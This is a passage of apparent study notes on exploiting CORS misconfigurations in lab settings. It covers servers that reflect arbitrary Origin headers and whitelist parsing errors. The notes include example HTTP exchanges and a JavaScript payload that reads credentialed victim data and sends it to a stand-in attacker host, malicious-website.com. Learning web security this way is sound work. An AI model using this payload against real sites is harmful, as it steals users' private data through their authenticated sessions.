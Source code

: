 ```html
            xhr.send(null)
        </script>
    </body>
</html>
```

Host them in the exploit server, observe it works yourself and deliver it to the victim. View the access log afterwards:

![[CORS Admin.png]]
# Server-Generated ACAO Header

Some apps provide access to other domains and allow access from any other domains. One way is via reading the Origin header from requests and including a response header stating the requesting origin is allowed. For example:

```html
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

It responds with:

```html
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

Since the app reflects arbitrary origins, it means any domain can access resources from the vulnerable domain. If the response has sensitive info, you can extract it:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```
# Error Parsing Origin Headers

Some apps support using a whitelist. When a CORS request is received, the origin is compared to it. If it appears, then it is reflected in the ACAO header. For example:

```html
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```
